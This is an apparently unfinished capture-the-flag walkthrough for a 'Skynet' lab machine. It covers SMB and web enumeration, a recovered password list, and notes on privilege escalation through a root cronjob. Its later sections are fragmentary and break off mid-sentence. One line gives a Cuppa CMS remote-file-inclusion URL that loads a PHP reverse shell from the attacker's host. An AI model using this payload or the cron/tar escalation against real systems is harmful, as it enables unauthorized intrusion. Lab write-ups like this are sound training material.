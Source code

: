 ```yaml
---
layout: default
title: Skynet
has_children: true
nav_order: 2
---
```


## [](#header-2)Summary:

1. Find/Enumarate Samba  
2. Bruteforce mail server login 
3. Find hidden web dir 
4. Use Cuppa exploit to drop remote shell for intitial access
5. Privesc using cronjob

## [](#header-2)Recon:


Intial nmap scan shows an Apache server running on port 80, email clients (pop3/imap),and some "potentially" vulnerable samaba shares.
![](pictures/nmap0-skynet.PNG)


Navigating to the apache server on port 80 we see a skynet search engine which doesn't give us much in terms of functionality.

![](pictures/website-skynet.PNG)

After running smbmap on the host we can see there are 4 seperate shares.

![](pictures/smbmap-skynet.PNG)

Running gobuster reveals two interesting finds an admin direcory and a mail server called "squirrelmail".

![](pictures/gobuster0-skynet.PNG)

## [](#header-2)Enumeration:


From here the only smbshare we are able to access at this point is "anonymous" which has "READ ONLY" permissions.
'''bash
smbclient //<targetip>/anonymous 
'''
Once we are in the anonymous share we can see two files/folders of interest.
![](pictures/sambadir-skynet.PNG)

From here we want to retrieve these files to further analyze with the following command.

'''bash
smbget -R smb://<target ip>/anonymous
'''
![](pictures/sambaget-skynet.PNG)


Reading the attention txt file we find out that passwords for users accross the system have been changed, some may call this a "clue".
'''bash
kali@kali:~/Desktop/tryhackme/skynet$ cat attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson


We then find that log1.txt contains what seems to be passwords that mightve been apart of the recent change.
kali@kali:~/Desktop/tryhackme/skynet$ cat log1.txt 
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
'''




webmail:
https://www.dailydot.com/debug/facebook-ai-invent-language/


searchsploit cuppa
cuppa:
http://10.10.58.237/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.22.131:8000/php-reverse-shell.php



root:

Was able top get the root flag by abusing the tar function into getting the cronjob to spit out the root flag into the /tmp directory

Whenever the backups.sh cronjob runs the /var/www/html folder it then backed up and t
link tar sudo 